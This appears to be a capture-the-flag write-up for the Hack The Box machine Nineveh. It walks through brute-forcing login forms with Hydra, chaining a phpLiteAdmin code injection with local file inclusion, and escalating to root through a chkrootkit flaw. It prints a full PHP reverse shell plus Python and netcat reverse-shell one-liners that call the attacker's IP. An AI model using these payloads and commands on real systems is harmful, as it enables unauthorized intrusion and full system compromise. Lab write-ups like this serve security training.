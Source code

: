 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.43 -T5  
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/1.png">

# Enumeration
We'll start of with scanning for directories on port 80 and 443.

> I had troubles running gobuster against 443 due to an expired certificate. I tried it with dirbuster which did the trick. Later I found out that adding ```-k``` to your gopuster will disable certificate checks.

We found:
```
https://10.10.10.43/db
https://10.10.10.43/secure_notes
http://10.10.10.43/department
http://10.10.10.43/info.php

```

Hydra scan on https:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -T 64 -V -l empty
```

Hydra scan on http:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -T 64 -V -l admin
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/2.png">

Hydra bruteforced a password for each login form.

```
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
[443][http-post-form] host: 10.10.10.43   login: empty   password: password123
```

# SSH Key
The image on ```https://10.10.10.43/secure_notes``` contains a hidden messages. Running the file trough ```strings``` reveals a SSH private key.
But we are unable to connect as port 22 is closed. (At least for now)

# Exploiting RCE and LFI
After a quick Google search we learn that phpLiteAdmin version 1.9 is vulnerable to remote PHP code injection.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/3.png">

> https://www.exploit-db.com/exploits/24044

We'll have to create a database and give it a ```php``` extension. Then we'll add a table and add a php command in the filed. We will use this to test if the exploit works.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/4.png">

At this moment it's not sure how we can access the database and hereby executing the php script.
Let continue with the other login at ```http://10.10.10.43/department```. Maybe we can chain some things together.

There appears to be local file inclusion vulnerability but if we change the address we get the message saying there's no note selected. 

If we rename the database so it includes ```ninevehNotes.txt``` we hopefully can bypass this.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/5.png">

We can use the local file inclusion vulnerability in combination with the reverse code injection to run our test script:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/6.png">

# Initial Foothold
Now let's change the script to a reverse php shell in order to get a shell on the host. 

```
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.9"; $port = 4444; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\n"; } } ?>
```

We now have a low privilege shell on the host as user ```www-date```. Running ```which python``` shows that Python is installed so we can stabilize the shell a bit:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We can download and run ```linpeas.sh``` to do some enumerating. We spot a cronjob in ```/usr/sbin/report.sh``` but we don't have permissions to view or edit the file.

Strange thing is that we find port 22 being used but it didn't turn up during our initial portscan. Is there some mechanism preventing us from accessing it?

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/7.png">

After some digging around we found out that ```knock``` is running as ```root```. 
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/8.png">

> Wiki: In computer networking, port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s)

Now let's go look for some config files to see if we can get the knock key:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/9.png">

Found it at ```/etc/knockd.conf```. (We also found it in ```/var/mail/armois```).
Now we can use that key to open up the port for us:
```
knock 10.10.10.43 571 290 911 && ssh -i rsa amrois@10.10.10.43
```
We're now logged in as ```amrois```

# Privilege Escalation
Let's investigate the cronjob that we found earlier. It deletes every file in the ```/report``` directory. These files are generated by ```chkrootkit``` which scans files for the existence of rootkits. There is known vulnerability where we can run a file to our liking, thus granting us root privileges. 

> https://www.exploit-db.com/exploits/33899

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Nineveh/assets/10.png">

The file ```/tmp/update``` is executed by ckhrootkit as root. As this file does not currently exist, it is possible to put a bash script in its place and use it to grant us a root shell.

Let's craft our update file:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

chmod +x /tmp/update
```
Or:
```
echo -e "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4445 >/tmp/f" > /tmp/update

chmod +x /tmp/update
```
And have out netcat listener ready:
```
rlwrap nc -nlvp 4445
```
After a short moment our reverse shell as root will pop up.









